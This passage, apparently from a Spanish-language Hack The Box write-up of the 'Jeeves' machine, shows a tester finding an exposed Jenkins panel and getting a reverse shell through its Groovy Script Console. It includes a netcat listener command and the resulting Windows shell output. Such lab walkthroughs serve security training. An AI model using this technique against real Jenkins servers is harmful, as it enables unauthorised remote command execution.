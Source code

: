 Enumerando directorios en el puerto 50000 encontramos un directorio `askjeeves`. Accedemos y nos encontramos un panel de control de `Jenkins`

<img src="/assets/HTB/Jeeves/askjeeves.png">

Buscando posibles vulnerabilidades enontramos este artículo de [Hacking Articles](https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/) en donde explican como ejecutar una reverse shell a través de la consola de scripts. Accedemos a `Manage Jenkins -> Script Console`, insertamos el código para entablar una reverse shell y nos ponemos en escucha en el puerto 443 

<img src="/assets/HTB/Jeeves/script.png">

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.10.63] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
La flag de usuario la encontramos en el directorio `C:\Users\kohsuke\Desktop`
